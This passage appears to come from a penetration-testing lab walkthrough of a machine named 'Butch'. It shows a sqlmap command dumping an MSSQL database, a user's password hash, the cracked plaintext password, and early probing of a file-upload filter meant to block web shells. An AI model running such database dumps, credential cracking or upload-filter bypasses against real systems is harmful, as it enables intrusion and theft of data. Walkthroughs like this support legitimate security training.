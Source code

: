lets dump butch database:
```bash
sqlmap -r /home/kali/butch_request --dbms mssql -D butch --dump
        ___
       __H__                                                                                                          
 ___ ___[,]_____ ___ ___  {1.4.10#stable}                                                                             
|_ -| . [']     | .'| . |                                                                                             
|___|_  [.]_|_|_|__,|  _|                                                                                             
      |_|V...       |_|   http://sqlmap.org                                                                           

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

...

Database: butch
Table: users
[1 entry]
+---------+----------+------------------------------------------------------------------+
| user_id | username | password_hash                                                    |
+---------+----------+------------------------------------------------------------------+
| 1       | butch    | e7b2b06dd8acded117d6d075673274c4ecdc75a788e09e81bffd84f11af6d267 |
+---------+----------+------------------------------------------------------------------+
```
Since the output contained a password hash, sqlmap offers to attempt to crack the hash with a common wordlist. We'll respond with Y or yes to proceed.

The attempt is successful, revealing a password of awesomedude. We can successfully authenticate to the web app with this password.

**butch: awesomedude**

### Application Analysis
This authentication grants us access to a page that allows file uploads. However, attempting to upload an .aspx or .asp web shell results in an error, suggesting these file types are blacklisted.

As we attempt to upload other types of files, we discover that we can upload .txt files and, once uploaded, they are accessible from the web root. For example, if we were to upload a file named test.txt, we could access it at http://192.168.65.63:450/test.txt.

In our previous enumeration, we discovered a /dev directory. Navigating to this directory reveals two files: style.css and site.master.txt. The CSS file in uninteresting for our purposes, but the TXT file contains very useful information.
```
<%@ Language="C#" src="site.master.cs" Inherits="MyNamespaceMaster.MyClassMaster" %>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" lang="en">
	<head runat="server">
		<title>Butch</title>
		<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
		<meta name="application-name" content="Butch">
		<meta name="author" content="Butch">
		<meta name="description" content="Butch">
		<meta name="keywords" content="Butch">
		<link media="all" href="style.css" rel="stylesheet" type="text/css" />
		<link id="favicon" rel="shortcut icon" type="image/png" href="favicon.png" />
	</head>
	<body>
		<div id="wrap">
```